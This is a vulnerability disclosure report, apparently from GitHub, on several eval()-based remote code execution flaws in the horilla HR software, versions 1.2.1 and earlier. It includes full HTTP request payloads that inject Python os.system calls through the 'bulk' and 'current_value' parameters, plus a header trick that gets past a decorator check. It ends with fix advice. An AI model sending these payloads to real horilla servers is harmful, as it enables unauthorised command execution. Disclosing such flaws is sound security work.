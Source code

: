 # BUG_Author

YiLin Li

# Affected version

horilla ≤ 1.2.1

# Vender

[www.horilla.com](https://www.horilla.com/)

# Software

![image](https://github.com/user-attachments/assets/509f75d7-ae1b-4ebd-8a49-601b74a69f73)

# Vulnerability File

attendance/views/requests.py → `request_new()`

attendance/views/requests.py → `get_employee_shift()`

payroll/views/component_views.py → `create_reimbursement()`

pms/views.py → `key_result_current_value_update()` 

pms/views.py → `create_meetings()`

recruitment/views/views.py → `create_skills()`

# Description

Multiple remote command execution vulnerabilities were found in horilla. Multiple handlers in horilla did not perform reasonable privilege checks, allowing request parameters from external sources to be passed into the eval() method, which ultimately led to the vulnerabilities.

|  | URL | Vulnerability parameter | Request method |
| --- | --- | --- | --- |
| 1 | /attendance/request-new-attendance | bulk | GET |
| 2 | /attendance/get-employee-shift | bulk | GET |
| 3 | /payroll/create-reimbursement | instance_id | GET |
| 4 | /pms/key-result-current-value-update | current_value | POST |
| 5 | /pms/key-result-current-value-update | emp_key_result_id | POST |
| 6 | /pms/create-meeting | instance_id | GET |
| 7 | /recruitment/create-skills/ | instance_id | GET |

## Status

Critical

## Code Analysis

I will analyse the code that causes the vulnerability at each handler

1. The cause of the vulnerability at /attendance/request-new-attendance is as follows:

![image](https://github.com/user-attachments/assets/5e6d5773-a682-4261-9e55-1219e1c70303)

where input from bulk is unfiltered and executed as python code.

2. The cause of the vulnerability at /attendance/get-employee-shift is as follows:
    
![image](https://github.com/user-attachments/assets/89121e82-3c5f-475b-b38e-91dba9801e93)

where input from bulk is unfiltered and is executed as code, the value of employ_id is irrelevant.

3. The cause of the vulnerability at /payroll/create-reimbursement is as follows:

![image](https://github.com/user-attachments/assets/ab5b5efd-1deb-40e1-b59e-b97ecf3118b9)

where the input from instance_id is not filtered and is executed as code.

4/5.  The cause of the vulnerability at /pms/key-result-current-value-update and /pms/key-result-current-value-update is as follows:

![image](https://github.com/user-attachments/assets/53b9840a-8614-48fc-a2d4-c3718c2ffb2d)

Where inputs from current_value and emp_key_result_id are not filtered and are executed as code.

6. The cause of the vulnerability at /pms/create-meeting is as follows:

![image](https://github.com/user-attachments/assets/f9389717-6ef0-444e-ac5b-b4fd18262b7a)

where the input from instance_id is not filtered and is executed as code.

7. The cause of the vulnerability at /recruitment/create-skills/ is as follows:

![image](https://github.com/user-attachments/assets/e581a27c-1340-439f-8cbb-ce36c30688e0)

where the input from instance_id is not filtered and is executed as code.

## Trigger the vulnerability

The causes of these vulnerabilities are similar, so I've chosen the view function located on `/attendance/request-new-attendance` and `/pms/key-result-current-value-update` to illustrate how vulnerabilities can be triggered

Firstly, I created a normal user ‘spiderman’ with minimum privileges. In the Django backend, you can see that ‘spiderman’ is not an administrator and does not have any permissions.

![image](https://github.com/user-attachments/assets/78aef6e8-2966-4700-8de1-ede90ea63822)

Subsequently, use spiderman to log into horilla and record the `csrftoken` in the cookie and the `csrfmiddlewaretoken` in the parameter when logging in.

![image](https://github.com/user-attachments/assets/0efa3d3d-c81c-4179-806b-aadf012bbb63)

**For the first vulnerability:** Construct a GET request to access `/attendance/request-new-attendance` using the sessionid of the logged-in session, with the request parameters `bulk=__import__('os').system('touch /home/lyl/hackInAttendance')`

![image](https://github.com/user-attachments/assets/3fb3808f-fb20-451a-872b-d4cda6566d20)

Notice that the Handler uses the **@hx_request_required** decorator for bypassing, so the following needs to be added additionally to the request header:

***HX-Request: true***

After sending this request, we can see the file `/home/lyl/hackInAttendance` being created on the horilla server, indicating that the code was executed successfully.

![image](https://github.com/user-attachments/assets/c09a2979-a95c-4ebc-bc55-a4cf505cad7b)

**For the second vulnerability:** Construct a POST request to access `/pms/key-result-current-value-update` using the **`sessionid`** of the logged-in session and the previously recorded **`csrftoken`** and **`csrfmiddlewaretoken`**, with the request parameters `current_value=__import__('os').system('touch /home/lyl/hackInPms')`

![image](https://github.com/user-attachments/assets/340d6c89-6f06-4dcf-9a78-f7d2043dff9b)

After sending this request, we can see the file `/home/lyl/hackInPms` being created on the horilla server, indicating that the code was executed successfully.

![image](https://github.com/user-attachments/assets/12f3a1b7-970a-48c5-93fa-09683d988d3e)

# Payload

`/attendance/request-new-attendance`

```
GET http://192.168.0.166:8000/attendance/request-new-attendance?bulk=__import__('os').system('touch%20%2fhome%2flyl%2fhackInAttendance') HTTP/1.1
Host: 192.168.0.166:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.166:8000/
HX-Request: true
Connection: close
Cookie: csrftoken=9eoX7czN8uY81y5W7OmIThrOcpc3JgPV; sessionid=bd8vz27cj76r5krhsbaphl1l6ewl3hqt

```

`/attendance/request-new-attendance`

```
POST http://192.168.0.166:8000/pms/key-result-current-value-update HTTP/1.1
Host: 192.168.0.166:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.166:8000/
Connection: close
Cookie: sessionid=bd8vz27cj76r5krhsbaphl1l6ewl3hqt; csrftoken=tyvez4ZtrW9QOPZJbu1JE1EfX58khXFD
Content-Type: application/x-www-form-urlencoded
Content-Length: 159

current_value=__import__('os').system('touch%20%2fhome%2flyl%2fhackInPms')&csrfmiddlewaretoken=EcnYepzWpk3uctWQNtBthvlf3jPWdbk0XAI2DjofG62aQ8LpONs2LmPkQeN6kYPt
```

## Fix Recommendations

1. Add permission decorators to each Handler
2. Whitelisting or regular filtering of arguments before calling the eval() method
